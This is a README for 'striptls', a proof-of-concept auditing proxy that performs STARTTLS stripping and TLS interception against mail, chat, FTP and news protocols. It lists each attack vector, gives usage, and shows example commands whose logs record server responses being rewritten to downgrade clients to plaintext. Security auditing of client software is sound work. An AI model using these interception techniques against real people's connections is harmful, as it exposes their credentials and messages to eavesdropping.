 .. figure:: http://i68.tinypic.com/2iqz7t2.png

striptls - auditing proxy
=========================

poc implementation of STARTTLS stripping attacks
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

A generic tcp proxy implementation and audit tool to perform protocol
independent ``ssl/tls`` interception and ``STARTTLS`` stripping attacks
on ``SMTP``, ``POP3``, ``IMAP``, ``FTP``, ``NNTP``, ``XMPP``, ``ACAP``
and ``IRC``.

Requires:
         

-  Python >= 2.7.9 (``SSLContext``)
-  (optional for tls interception) Certificate and PrivateKey in PEM
   format (single file) ``--key=server.pem``

Vectors
^^^^^^^

-  GENERIC
-  Intercept - protocol independent ssl/tls interception. peeks for TLS
   Handshake, converts socket to tls (tls-to-tls proxy)
-  InboundIntercept - protocol independent ssl/tls interception for the
   inbound channel only (tls-to-plain proxy)
-  SMTP
-  SMTP.StripFromCapabilities - server response capability patch
-  SMTP.StripWithInvalidResponseCode - client STARTTLS stripping,
   invalid response code
-  SMTP.UntrustedIntercept - STARTTLS interception (client and server
   talking ssl) (requires server.pem in pwd)
-  SMTP.StripWithTemporaryError
-  SMTP.StripWithError
-  SMTP.ProtocolDowngradeStripExtendedMode
-  SMTP.InjectCommand
-  SMTP.InboundStarttlsProxy - (starttls-to-plain proxy)
-  POP3
-  POP3.StripFromCapabilities
-  POP3.StripWithError
-  POP3.UntrustedIntercept
-  IMAP
-  IMAP.StripFromCapabilities
-  IMAP.StripWithError
-  IMAP.UntrustedIntercept
-  IMAP.ProtocolDowngradeToV2
-  FTP
-  FTP.StripFromCapabilities
-  FTP.StripWithError
-  FTP.UntrustedIntercept
-  NNTP
-  NNTP.StripFromCapabilities
-  NNTP.StripWithError
-  NNTP.UntrustedIntercept
-  XMPP
-  XMPP.StripFromCapabilities
-  XMPP.StripInboundTLS
-  XMPP.UntrustedIntercept
-  ACAP (untested)
-  ACAP.StripFromCapabilities
-  ACAP.StripWithError
-  ACAP.UntrustedIntercept
-  IRC
-  IRC.StripFromCapabilities
-  IRC.StripWithError
-  IRC.UntrustedIntercept
-  IRC.StripWithNotRegistered
-  IRC.StripCAPWithNotregistered
-  IRC.StripWithSilentDrop

Results:

::

    - [*] client: 127.0.0.1
    -     [Vulnerable!] <class striptls.StripWithInvalidResponseCode at 0xffd3138c>
    -     [Vulnerable!] <class striptls.StripWithTemporaryError at 0xffd4611c>
    -     [           ] <class striptls.StripFromCapabilities at 0xffd316bc>
    -     [Vulnerable!] <class striptls.StripWithError at 0xffd4614c>
    - [*] client: 192.168.139.1
    -     [Vulnerable!] <class striptls.StripInboundTLS at 0x7f08319a6808>
    -     [Vulnerable!] <class striptls.StripFromCapabilities at 0x7f08319a67a0>
    -     [Vulnerable!] <class striptls.UntrustedIntercept at 0x7f08319a6870>

Usage
-----

::

    #> python -m striptls --help    # from pip/setup.py
    #> python striptls --help       # from source / root folder
    Usage: striptls.py [options]

           example: striptls.py --listen 0.0.0.0:25 --remote mail.server.tld:25


    Options:
      -h, --help            show this help message and exit
      -q, --quiet           be quiet [default: True]
      -l LISTEN, --listen=LISTEN
                            listen ip:port [default: 0.0.0.0:<remote_port>]
      -r REMOTE, --remote=REMOTE
                            remote target ip:port to forward sessions to
      -k KEY, --key=KEY     SSL Certificate and Private key file to use, PEM
                            format assumed [default: server.pem]
      -s, --generic-ssl-intercept
                            dynamically intercept SSL/TLS
      -b BUFFER_SIZE, --bufsiz=BUFFER_SIZE
      -x VECTORS, --vectors=VECTORS
                            Comma separated list of vectors. Use 'ALL' (default)
                            to select all vectors, 'NONE' for tcp/ssl proxy mode.
                            Available vectors: ACAP.StripFromCapabilities,
                            ACAP.StripWithError, ACAP.UntrustedIntercept,
                            FTP.StripFromCapabilities, FTP.StripWithError,
                            FTP.UntrustedIntercept, GENERIC.Intercept,
                            IMAP.ProtocolDowngradeToV2,
                            IMAP.StripFromCapabilities, IMAP.StripWithError,
                            IMAP.UntrustedIntercept,
                            IRC.StripCAPWithNotRegistered,
                            IRC.StripFromCapabilities, IRC.StripWithError,
                            IRC.StripWithNotRegistered, IRC.StripWithSilentDrop,
                            IRC.UntrustedIntercept, NNTP.StripFromCapabilities,
                            NNTP.StripWithError, NNTP.UntrustedIntercept,
                            POP3.StripFromCapabilities, POP3.StripWithError,
                            POP3.UntrustedIntercept, SMTP.InboundStarttlsProxy,
                            SMTP.InjectCommand,
                            SMTP.ProtocolDowngradeStripExtendedMode,
                            SMTP.StripFromCapabilities, SMTP.StripWithError,
                            SMTP.StripWithInvalidResponseCode,
                            SMTP.StripWithTemporaryError, SMTP.UntrustedIntercept,
                            XMPP.StripFromCapabilities, XMPP.StripInboundTLS,
                            XMPP.UntrustedIntercept [default: ALL]

Install (optional)
------------------

from pip

::

    #> pip install striptls

from source

::

    #> setup.py install

Examples
--------

::

                      inbound                    outbound
    [inbound_peer]<------------->[listen:proxy]<------------->[outbound_peer/target]
      smtp-client                   striptls                    remote/target

local ``smtp-client`` -> ``localhost:8825`` (proxy) ->
``mail.gmx.net:25``

Generic SSL/TLS Interception
~~~~~~~~~~~~~~~~~~~~~~~~~~~~

``--generic-ssl-intercept`` is a global switch to enable generic ssl/tls
handshake detection and session conversion. Can be combined with any
mangle/vector.

``GENERIC.Intercept`` is a mangle/vector implementation of the ssl/tls
handshake detect and convert feature.

::

    # python striptls.py -l 0.0.0.0:9999 -r mail.gmx.com:465 -x GENERIC.Intercept
    - INFO     - <Proxy 0x1fdcf50 listen=('0.0.0.0', 9999) target=('mail.gmx.com', 465)> ready.
    - DEBUG    - * added vector (port:None , proto: GENERIC): <class __main__.Intercept at 0x0218AAB0>
    - INFO     - <RewriteDispatcher ssl/tls_intercept=False vectors={None: set([<class __main__.Intercept at 0x0218AAB0>])}>
    - INFO     - <Session 0x1ff00b0> client ('127.0.0.1', 8228) has connected
    - INFO     - <Session 0x1ff00b0> connecting to target ('mail.gmx.com', 465)
    - DEBUG    - <RewriteDispatcher  - changed mangle: __main__.Intercept new: True>
    - INFO     - ProtocolDetect: SSL/TLS version: TLS_1_0
    - INFO     - SSL Handshake detected - performing ssl/tls conversion
    - DEBUG    - <Session 0x1ff00b0> [client] <> [      ]          SSL handshake done: ('ECDHE-RSA-AES256-GCM-SHA384', 'TLSv1/SSLv3', 256)
    - DEBUG    - <Session 0x1ff00b0> [      ] <> [server]          SSL handshake done: ('DHE-RSA-AES256-GCM-SHA384', 'TLSv1/SSLv3', 256)
    - DEBUG    - <Session 0x1ff00b0> [client] <= [server]          '220 gmx.com (mrgmx101) Nemesis ESMTP Service ready\r\n'
    - DEBUG    - <Session 0x1ff00b0> [client] => [server]          'hi\r\n'
    - DEBUG    - <Session 0x1ff00b0> [client] <= [server]          '500 Syntax error, command unrecognized\r\n'

    # python striptls.py -l 0.0.0.0:9999 -r mail.gmx.com:25 -x NONE --generic-ssl-intercept
    - INFO     - <Proxy 0x1efbf70 listen=('0.0.0.0', 9999) target=('mail.gmx.com', 25)> ready.
    - INFO     - <RewriteDispatcher ssl/tls_intercept=True vectors={}>
    - DEBUG    - <ProtocolDetect 0x1f21b70 protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
    - INFO     - <Session 0x1f10110> client ('127.0.0.1', 8290) has connected
    - INFO     - <Session 0x1f10110> connecting to target ('mail.gmx.com', 25)
    - DEBUG    - <Session 0x1f10110> [client] <= [server]          '220 gmx.com (mrgmx101) Nemesis ESMTP Service ready\r\n'
    - DEBUG    - <Session 0x1f10110> [client] => [server]          'EHLO openssl.client.net\r\n'
    - DEBUG    - <Session 0x1f10110> [client] <= [server]          '250-gmx.com Hello openssl.client.net [xxx.xxx.xxx.xxx]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    - DEBUG    - <Session 0x1f10110> [client] => [server]          'STARTTLS\r\n'
    - DEBUG    - <Session 0x1f10110> [client] <= [server]          '220 OK\r\n'
    - INFO     - ProtocolDetect: SSL/TLS version: TLS_1_0
    - INFO     - SSL Handshake detected - performing ssl/tls conversion
    - DEBUG    - <Session 0x1f10110> [client] <> [      ]          SSL handshake done: ('ECDHE-RSA-AES256-GCM-SHA384', 'TLSv1/SSLv3', 256)
    - DEBUG    - <Session 0x1f10110> [      ] <> [server]          SSL handshake done: ('DHE-RSA-AES256-GCM-SHA384', 'TLSv1/SSLv3', 256)
    - DEBUG    - <Session 0x1f10110> [client] => [server]          'EHLO A\r\n'
    - DEBUG    - <Session 0x1f10110> [client] <= [server]          '250-gmx.com Hello A [xxx.xxx.xxx.xxx]\r\n250-SIZE 69920427\r\n250AUTH LOGIN PLAIN\r\n'

Audit Mode
~~~~~~~~~~

iterates all protocol specific cases on a per client basis and keeps
track of clients violating the starttls protocol. Ctrl+C to abort audit
and print results.

::

    #> python striptls --listen localhost:8825 --remote=mail.gmx.net:25
    - INFO     - <Proxy 0xffcf6d0cL listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
    - DEBUG    - * added test (port:21   , proto:     FTP): <class striptls.StripFromCapabilities at 0xffd4632c>
    - DEBUG    - * added test (port:21   , proto:     FTP): <class striptls.StripWithError at 0xffd4635c>
    - DEBUG    - * added test (port:21   , proto:     FTP): <class striptls.UntrustedIntercept at 0xffd4638c>
    - DEBUG    - * added test (port:143  , proto:    IMAP): <class striptls.StripFromCapabilities at 0xffd4626c>
    - DEBUG    - * added test (port:143  , proto:    IMAP): <class striptls.StripWithError at 0xffd4629c>
    - DEBUG    - * added test (port:143  , proto:    IMAP): <class striptls.UntrustedIntercept at 0xffd462cc>
    - DEBUG    - * added test (port:119  , proto:    NNTP): <class striptls.StripFromCapabilities at 0xffd463ec>
    - DEBUG    - * added test (port:119  , proto:    NNTP): <class striptls.StripWithError at 0xffd4641c>
    - DEBUG    - * added test (port:119  , proto:    NNTP): <class striptls.UntrustedIntercept at 0xffd4644c>
    - DEBUG    - * added test (port:110  , proto:    POP3): <class striptls.StripWithError at 0xffd461dc>
    - DEBUG    - * added test (port:110  , proto:    POP3): <class striptls.UntrustedIntercept at 0xffd4620c>
    - DEBUG    - * added test (port:25   , proto:    SMTP): <class striptls.StripFromCapabilities at 0xffd316bc>
    - DEBUG    - * added test (port:25   , proto:    SMTP): <class striptls.StripWithError at 0xffd4614c>
    - DEBUG    - * added test (port:25   , proto:    SMTP): <class striptls.StripWithInvalidResponseCode at 0xffd3138c>
    - DEBUG    - * added test (port:25   , proto:    SMTP): <class striptls.StripWithTemporaryError at 0xffd4611c>
    - DEBUG    - * added test (port:25   , proto:    SMTP): <class striptls.UntrustedIntercept at 0xffd4617c>
    - DEBUG    - * added test (port:5222 , proto:    XMPP): <class striptls.StripFromCapabilities at 0xffd464ac>
    - INFO     - <RewriteDispatcher vectors={5222: set([<class striptls.StripFromCapabilities at 0xffd464ac>]), 110: set([<class striptls.UntrustedIntercept at 0xffd4620c>, <class striptls.StripWithError at 0xffd461dc>]), 143: set([<class striptls.StripWithError at 0xffd4629c>, <class striptls.UntrustedIntercept at 0xffd462cc>, <class striptls.StripFromCapabilities at 0xffd4626c>]), 21: set([<class striptls.UntrustedIntercept at 0xffd4638c>, <class striptls.StripFromCapabilities at 0xffd4632c>, <class striptls.StripWithError at 0xffd4635c>]), 119: set([<class striptls.StripWithError at 0xffd4641c>, <class striptls.UntrustedIntercept at 0xffd4644c>, <class striptls.StripFromCapabilities at 0xffd463ec>]), 25: set([<class striptls.StripWithInvalidResponseCode at 0xffd3138c>, <class striptls.StripWithTemporaryError at 0xffd4611c>, <class striptls.StripFromCapabilities at 0xffd316bc>, <class striptls.StripWithError at 0xffd4614c>, <class striptls.UntrustedIntercept at 0xffd4617c>])}>
    - DEBUG    - <ProtocolDetect 0xffcf6eccL protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
    - INFO     - <Session 0xffcf6e4cL> client ('127.0.0.1', 28902) has connected
    - INFO     - <Session 0xffcf6e4cL> connecting to target ('mail.gmx.net', 25)
    - DEBUG    - <Session 0xffcf6e4cL> [client] <= [server]          '220 gmx.com (mrgmx001) Nemesis ESMTP Service ready\r\n'
    - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.StripWithInvalidResponseCode new: True>
    - DEBUG    - <Session 0xffcf6e4cL> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    - DEBUG    - <Session 0xffcf6e4cL> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [xxx.xxx.xxx.xxx]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    - DEBUG    - <Session 0xffcf6e4cL> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [xxx.xxx.xxx.xxx]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250-STARTTLS\r\n250 STARTTLS\r\n'
    - DEBUG    - <Session 0xffcf6e4cL> [client] => [server]          'STARTTLS\r\n'
    - DEBUG    - <Session 0xffcf6e4cL> [client] <= [server][mangled] '200 STRIPTLS\r\n'
    - DEBUG    - <Session 0xffcf6e4cL> [client] => [server][mangled] None
    - DEBUG    - <Session 0xffcf6e4cL> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
    - DEBUG    - <Session 0xffcf6e4cL> [client] <= [server]          '530 Authentication required\r\n'
    - DEBUG    - <Session 0xffcf6e4cL> [client] => [server]          'rset\r\n'
    - DEBUG    - <Session 0xffcf6e4cL> [client] <= [server]          '250 OK\r\n'
    - WARNING  - <Session 0xffcf6e4cL> terminated.
    - DEBUG    - <ProtocolDetect 0xffd0920cL protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
    - INFO     - <Session 0xffd0918cL> client ('127.0.0.1', 28905) has connected
    - INFO     - <Session 0xffd0918cL> connecting to target ('mail.gmx.net', 25)
    - DEBUG    - <Session 0xffd0918cL> [client] <= [server]          '220 gmx.com (mrgmx003) Nemesis ESMTP Service ready\r\n'
    - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.StripWithTemporaryError new: True>
    - DEBUG    - <Session 0xffd0918cL> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    - DEBUG    - <Session 0xffd0918cL> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [xxx.xxx.xxx.xxx]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    - DEBUG    - <Session 0xffd0918cL> [client] => [server]          'STARTTLS\r\n'
    - DEBUG    - <Session 0xffd0918cL> [client] <= [server][mangled] '454 TLS not available due to temporary reason\r\n'
    - DEBUG    - <Session 0xffd0918cL> [client] => [server][mangled] None
    - DEBUG    - <Session 0xffd0918cL> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
    - DEBUG    - <Session 0xffd0918cL> [client] <= [server]          '530 Authentication required\r\n'
    - DEBUG    - <Session 0xffd0918cL> [client] => [server]          'rset\r\n'
    - DEBUG    - <Session 0xffd0918cL> [client] <= [server]          '250 OK\r\n'
    - WARNING  - <Session 0xffd0918cL> terminated.
    - DEBUG    - <ProtocolDetect 0xffd092ecL protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
    - INFO     - <Session 0xffd0926cL> client ('127.0.0.1', 28908) has connected
    - INFO     - <Session 0xffd0926cL> connecting to target ('mail.gmx.net', 25)
    - DEBUG    - <Session 0xffd0926cL> [client] <= [server]          '220 gmx.com (mrgmx003) Nemesis ESMTP Service ready\r\n'
    - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.StripFromCapabilities new: True>
    - DEBUG    - <Session 0xffd0926cL> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    - DEBUG    - <Session 0xffd0926cL> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [xxx.xxx.xxx.xxx]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    - DEBUG    - <Session 0xffd0926cL> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [xxx.xxx.xxx.xxx]\r\n250-SIZE 31457280\r\n250 AUTH LOGIN PLAIN\r\n'
    - WARNING  - <Session 0xffd0926cL> terminated.
    - DEBUG    - <ProtocolDetect 0xffd093ccL protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
    - INFO     - <Session 0xffd0934cL> client ('127.0.0.1', 28911) has connected
    - INFO     - <Session 0xffd0934cL> connecting to target ('mail.gmx.net', 25)
    - DEBUG    - <Session 0xffd0934cL> [client] <= [server]          '220 gmx.com (mrgmx002) Nemesis ESMTP Service ready\r\n'
    - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.StripWithError new: True>
    - DEBUG    - <Session 0xffd0934cL> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    - DEBUG    - <Session 0xffd0934cL> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [xxx.xxx.xxx.xxx]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    - DEBUG    - <Session 0xffd0934cL> [client] => [server]          'STARTTLS\r\n'
    - DEBUG    - <Session 0xffd0934cL> [client] <= [server][mangled] '501 Syntax error\r\n'
    - DEBUG    - <Session 0xffd0934cL> [client] => [server][mangled] None
    - DEBUG    - <Session 0xffd0934cL> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
    - DEBUG    - <Session 0xffd0934cL> [client] <= [server]          '530 Authentication required\r\n'
    - DEBUG    - <Session 0xffd0934cL> [client] => [server]          'rset\r\n'
    - DEBUG    - <Session 0xffd0934cL> [client] <= [server]          '250 OK\r\n'
    - WARNING  - <Session 0xffd0934cL> terminated.
    - WARNING  - Ctrl C - Stopping server
    - INFO     -  -- audit results --
    - INFO     - [*] client: 127.0.0.1
    - INFO     -     [Vulnerable!] <class striptls.StripWithInvalidResponseCode at 0xffd3138c>
    - INFO     -     [Vulnerable!] <class striptls.StripWithTemporaryError at 0xffd4611c>
    - INFO     -     [           ] <class striptls.StripFromCapabilities at 0xffd316bc>
    - INFO     -     [Vulnerable!] <class striptls.StripWithError at 0xffd4614c>

Strip STARTTLS from server capabilities
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    #> python striptls --listen=localhost:8825 --remote=mail.gmx.net:25 --test=SMTP.StripFromCapabilities
    - INFO     - <Proxy 0x1fe6e70 listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
    - INFO     - <RewriteDispatcher attacks={25: set([<class __main__.StripFromCapabilities at 0x01FE77D8>])}>
    - DEBUG    - <ProtocolDetect 0x1fe6f90 is_protocol=PROTO_SMTP len_history=0> - protocol detected (target port)
    - INFO     - <Session 0x1fe6f10> client ('127.0.0.1', 20070) has connected
    - INFO     - <Session 0x1fe6f10> connecting to target ('mail.gmx.net', 25)
    - DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '220 gmx.com (mrgmx003) Nemesis ESMTP Service ready\r\n'
    - DEBUG    - <Session 0x1fe6f10> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    - DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [xxx.xxx.xxx.xxx]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    - DEBUG    - <Session 0x1fe6f10> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [xxx.xxx.xxx.xxx]\r\n250-SIZE 31457280\r\n250 AUTH LOGIN PLAIN\r\n'
    - DEBUG    - <Session 0x1fe6f10> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
    - DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '530 Authentication required\r\n'
    - DEBUG    - <Session 0x1fe6f10> [client] => [server]          'rset\r\n'
    - DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '250 OK\r\n'
    - WARNING  - <Session 0x1fe6f10> terminated.

Invalid STARTTLS response code
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    #> python striptls --listen=localhost:8825 --remote=mail.gmx.net:25 --test=SMTP.StripWithInvalidResponseCode
    - INFO     - <Proxy 0x1fefe70 listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
    - INFO     - <RewriteDispatcher attacks={25: set([<class __main__.StripWithInvalidResponseCode at 0x02010730>])}>
    - DEBUG    - <ProtocolDetect 0x1feff90 is_protocol=PROTO_SMTP len_history=0> - protocol detected (target port)
    - INFO     - <Session 0x1feff10> client ('127.0.0.1', 20061) has connected
    - INFO     - <Session 0x1feff10> connecting to target ('mail.gmx.net', 25)
    - DEBUG    - <Session 0x1feff10> [client] <= [server]          '220 gmx.com (mrgmx003) Nemesis ESMTP Service ready\r\n'
    - DEBUG    - <Session 0x1feff10> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    - DEBUG    - <Session 0x1feff10> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [xxx.xxx.xxx.xxx]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    - DEBUG    - <Session 0x1feff10> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [xxx.xxx.xxx.xxx]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250-STARTTLS\r\n250 STARTTLS\r\n'
    - DEBUG    - <Session 0x1feff10> [client] => [server]          'STARTTLS\r\n'
    - DEBUG    - <Session 0x1feff10> [client] <= [server][mangled] '200 STRIPTLS\r\n'
    - DEBUG    - <Session 0x1feff10> [client] => [server][mangled] None
    - DEBUG    - <Session 0x1feff10> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
    - DEBUG    - <Session 0x1feff10> [client] <= [server]          '530 Authentication required\r\n'
    - DEBUG    - <Session 0x1feff10> [client] => [server]          'rset\r\n'
    - DEBUG    - <Session 0x1feff10> [client] <= [server]          '250 OK\r\n'
    - WARNING  - <Session 0x1feff10> terminated.

Untrusted SSL Intercept (for clients not checking server cert trust)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    #> python striptls --listen=localhost:8825 --remote=mail.gmx.net:25 --test=SMTP.UntrustedIntercept
    - INFO     - <Proxy 0x1f468f0 listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
    - INFO     - <RewriteDispatcher attacks={25: set([<class __main__.UntrustedIntercept at 0x01F45298>])}>
    - DEBUG    - <ProtocolDetect 0x1f46a10 protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
    - INFO     - <Session 0x1f46990> client ('127.0.0.1', 20238) has connected
    - INFO     - <Session 0x1f46990> connecting to target ('mail.gmx.net', 25)
    - DEBUG    - <Session 0x1f46990> [client] <= [server]          '220 gmx.com (mrgmx002) Nemesis ESMTP Service ready\r\n'
    - DEBUG    - <Session 0x1f46990> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    - DEBUG    - <Session 0x1f46990> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [xxx.xxx.xxx.xxx]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    - DEBUG    - <Session 0x1f46990> [client] => [server]          'STARTTLS\r\n'
    - DEBUG    - <Session 0x1f46990> [client] <= [server][mangled] '220 Go ahead\r\n'
    - DEBUG    - <Session 0x1f46990> [client] <= [server][mangled] waiting for inbound SSL Handshake
    - DEBUG    - <Session 0x1f46990> [client] => [server]          'STARTTLS\r\n'
    - DEBUG    - <Session 0x1f46990> [client] => [server][mangled] performing outbound SSL handshake
    - DEBUG    - <Session 0x1f46990> [client] => [server][mangled] None
    - DEBUG    - <Session 0x1f46990> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    - DEBUG    - <Session 0x1f46990> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [xxx.xxx.xxx.xxx]\r\n250-SIZE 69920427\r\n250 AUTH LOGIN PLAIN\r\n'
    - DEBUG    - <Session 0x1f46990> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
    - DEBUG    - <Session 0x1f46990> [client] <= [server]          '530 Authentication required\r\n'
    - DEBUG    - <Session 0x1f46990> [client] => [server]          'rset\r\n'
    - DEBUG    - <Session 0x1f46990> [client] <= [server]          '250 OK\r\n'
    - WARNING  - <Session 0x1f46990> terminated.

XMPP Audit Trail
~~~~~~~~~~~~~~~~

Example: Pidgin with optional transport security.

XMPP.StripInboundTLS - Inbound Plain - Outbound TLS - in case server requires starttls
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

        python striptls --listen 0.0.0.0:5222 --remote jabber.ccc.de:5222 -k ../server.pem
        - INFO     - <Proxy 0x7f08322ba310 listen=('0.0.0.0', 5222) target=('jabber.ccc.de', 5222)> ready.
        ...
        - DEBUG    - <ProtocolDetect 0x7f083196a810 protocol_id=PROTO_XMPP len_history=0> - protocol detected (target port)
        ...
        - INFO     - <Session 0x7f083196a7d0> client ('192.168.139.1', 56888) has connected
        - INFO     - <Session 0x7f083196a7d0> connecting to target ('jabber.ccc.de', 5222)
        - DEBUG    - <Session 0x7f083196a7d0> [client] => [server]          "<?xml version='1.0' ?><stream:stream to='jabber.ccc.de' xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' version='1.0'>"
        - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.StripInboundTLS new: True>
        - DEBUG    - <Session 0x7f083196a7d0> [client] <= [server]          "<?xml version='1.0'?><stream:stream xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' id='13821701589972978594' from='jabber.ccc.de' version='1.0' xml:lang='en'>"
